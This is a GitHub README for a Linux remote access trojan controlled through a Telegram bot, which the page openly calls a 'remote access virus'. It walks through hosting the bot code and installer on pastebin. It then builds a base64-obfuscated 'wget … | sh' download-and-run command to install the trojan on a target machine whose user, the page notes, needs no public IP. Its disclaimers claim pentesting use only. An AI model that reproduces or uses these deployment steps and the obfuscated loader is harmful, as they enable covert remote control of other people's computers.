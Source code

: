 # linuxRAT-tgBot 🖤🐧
<sub>ignore the program's output during boot</sub>
##### Disclaimer ⚠️
- Neither the project nor its developer promote any kind of illegal activity and are **not** responsible for any misuse or damage caused by this project.
- This project is for the purpose of penetration **testing only**.
- Please do **not** use this tool on other people's devices without their permission.
- Do **not** use this tool to harm others.
- Use this project responsibly on your own devices **only**.
- It is the end user's **responsibility** to obey all applicable local, state, federal, and international laws.
- This software is meant for educational purposes only. I'm **not** responsible for any malicious use of the app.
- I'm **not** responsible for any malicious use of the app.

# Features 🔥
- this is a remote access virus (so-called RAT);
- the victim does not need a white IP ✨;
- management is carried out using a telegram bot;
- you just need to put the data in a configuration file and upload it all to [pastebin](https://pastebin.com/);
- easy to use

# Requirements 👀
+ python3
    + aiogram==3.0.0b6
    + requests
+ bash commands
    + WGET
	+ CURL
    + imagemagick (not necessarily)
	+ cd
	+ systemct ( systemd🐧 )
	+ sleep (not necessarily)
	+ echo (not necessarily)
	+ if 
	+ then
	+ mkdir
	+ apt (not necessarily)
	+ clear (not necessarily)
+ internet
+ linux!

# Install  🥷🏽
Well, let's start!
I use pastebin, you can use any text paste tool on the web.

1)Setup the bot's config:.

1.1) Copy all code from this [site](https://raw.githubusercontent.com/dentuwu/linuxRAT-tgBot/main/kernel.py).
1.2) Paste this code in pastebin.com
1.3) In the TOKEN ribbon, enter your bot token.
1.4) In the ADMINS ribbon, enter the administrator's ID (listing the user's id in commas), so that only they can use the bot, the id can be taken in [this bot](t.me/myidbot).
1.5) In the TIMEOUT ribbon, enter a timeout, if the command takes a long time to execute, it will be aborted after n (default 45) seconds.

2) You should have it in the settings:
+ Paste Expiration: 1 Week (recommended).
+ Paste Exposure: Unlisted (so other users don't see your token and id).

You should get it:

 ![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/code.jpg "code kernel.py") 
 
![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/optional-paste-settings.jpg "settings paste")

2.1) **Touch** button "Create New Paste".
3) Click on raw, and **save** the received link: 

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/raw.jpg "rickroll")

4) Setup the install.sh config
4.1) Copy all code from this [site]https://github.com/dentuwu/linuxRAT-tgBot/raw/main/install.sh).
4.2) Paste this code in pastebin.com
4.3) In the URL_KERNEL_PY ribbon, enter the link obtained in point 3.

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/url-kernel-py.jpg "url kernel py")

4.4) If possible, do the same with URL_KERNEL_SERVICE,
URL_NO_ROOT_KERNEL_SERVICE, services are at [this link](https://github.com/dentuwu/linuxRAT-tgBot/tree/main/services), it is **not necessary**.
4.5) Repeat the points 2.1 and 3.

##### Using
Open a new terminal, and write this code :
```bash
 echo "wget url  -O- | sh" | base64
```
Instead of **url**, there should be a link obtained in point 4.5

You received something like this output - cmlja3JvbGwK, copy it and formulate a ready-made command to download the script and run it:

```bash
 echo output | base64 -d | bash
```

Run this command (on your devices only)!


## Tested
**this is script tested on:**
* Ubuntu 22.04 LTS


